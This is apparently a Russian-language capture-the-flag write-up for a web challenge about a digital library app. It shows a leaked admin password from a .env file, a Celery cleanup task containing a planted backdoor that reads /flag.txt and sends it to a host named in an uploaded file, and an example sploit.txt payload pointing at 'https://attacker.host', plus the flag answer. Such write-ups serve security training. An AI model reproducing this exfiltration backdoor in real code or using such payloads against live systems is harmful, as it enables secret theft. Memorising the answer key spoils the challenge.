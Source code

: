 # web | library | medium

## Информация

> Я создал электронную бибилиотеку, пока она на стадии разработки, но я надеюсь что у меня максимально безопасный сервис и с кодом все хорошо, проверь его на всякий случай, пожалуйста =)


## Подсказка

Если я правильно помню, то админ хотел удалять(очищать) старые книги как автоматизированно, через таски, celery таски....

## Деплой

```bash
cd deploy
docker-compose up --build -d
```

## Выдать участникам

public/public.zip

## Описание

в коде сливается пароль админской учетки, при этом новые книги можно загрузить только из панели админа, все книги, которым больше 30 секунд удаляются и вызывается очень странный код - явно создавался для админа, чтобы исполнять код.

## Решение

в .env файле сливается пароль админа

```
SERVER_PORT=8900
EMAIL_HOST_USER=admin@mylibrary.ru
EMAIL_HOST_PASSWORD=to!R>@gq~Q8y2?XVVGe:
                                  
```

посмотрим кусок кода в celery таске cleaner.py - если загрузить bash скрипт, то он исполнится, чтобы было безопаснее, то в код явно уже встроены методы взятия флага и резолва на удаленный хост

```php
def cleaner():
    books_to_delete = Book.objects.filter(created_at__lte=timezone.now() - timezone.timedelta(seconds=30))
  
    deleted_count = 0
  
    for book in books_to_delete:
        file_path = os.path.join(BOOK_STORE, f"{book.uid}.txt")
        try:
            with open(file_path, 'r') as f:
                lines = f.readlines()
                if len(lines) == 3 and '#!/usr/bin/bash' in lines[0] and "cat " in lines[1]:
                    flag = ""

                    with open("/flag.txt", 'r') as f1:
                        for i in f1:
                            flag+=i.replace('\n','')
                    dom = lines[2].replace('\n','')
                    url = f"{dom}/{flag}"
                    requests.get(url, verify=False, timeout=1)
      
          
      
            book.delete()
            deleted_count += 1
  
        except FileNotFoundError:
            print(f"File for {book.title} not found.")
            book.delete()
            deleted_count += 1
```

пример sploit.txt: (именно txt потому что книга!) - его надо загрузить как книгу

```
#!/usr/bin/bash
cat flag
https://attacker.host
```

## Флаг

ctf{1_th1nk_1t_will_b3_e4sy!}
